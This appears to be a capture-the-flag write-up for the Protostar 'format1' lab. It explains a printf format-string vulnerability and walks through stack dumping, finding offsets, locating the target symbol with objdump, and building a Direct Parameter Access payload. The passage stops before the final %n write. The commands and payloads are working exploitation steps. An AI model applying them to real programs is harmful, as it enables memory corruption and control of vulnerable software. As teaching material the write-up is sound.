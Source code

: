 but the code instead passes **our input** as format string:

``` c
printf(string);
```

This makes the program vulnerable because it allows us to include format specifiers (%x, %d, %s, %n, etc) in our input. Those format specifiers let us ***read or write to the stack***, which means we can overwrite the **target** variable to get our success message printed.

### Exploit

So, our approach for this is to write the address of `target` on to the stack, and use the format specifier `%n` to overwrite its value!

Let's start with finding the location of our input in the stack. Since the hint says that ***input string lies far up the stack***, I will create a big dump of stack memory, with some recognizable data (AAAAAAAA):

```shell
./format1 $(python -c 'print "AAAAAAAA" + ".%x" * 200')
```

You will see a big chunk of memory has been dumped. Now, we just need to adjust the difference, and find where our input appears in the stack. And in my case, the input starts at the position **129** in the stack slot.

``` shell
(...).41414100
```

However, we don't get the perfect data of `41414141`. So, how can we write our address to that location when the data is not perfectly aligned?

The answer to this is to use a technique called **Direct Parameter Access (DPA)**. This technique in format string exploits means placing an address at a specific location on the stack and using **%n$specifier** to refer to it. 

This is the syntax of DPA:

```
[address][padding]%[n]$specifier
```

- [address] → The memory location we want to write to 
- [padding] → The number of bytes we print to reach the desired value
- %[n]$specifier → Uses the nth stack entry to write data

Before we apply **DPA**, we need to find the memory address of **target**:

``` shell
user@protostar:/opt/protostar/bin$ objdump -t ./format1 | grep "target"
08049638 g     O .bss   00000004              target
```

Since our input starts at stack position **129**, we can use **DPA** to refer to this position. First, let’s verify we can reference the correct stack entry by using `%p` (which prints memory addresses):

``` shell
user@protostar:/opt/protostar/bin$ ./format1 $(python -c 'print "\x38\x96\x04\x08" + "%129$p"')
80x96380031
```
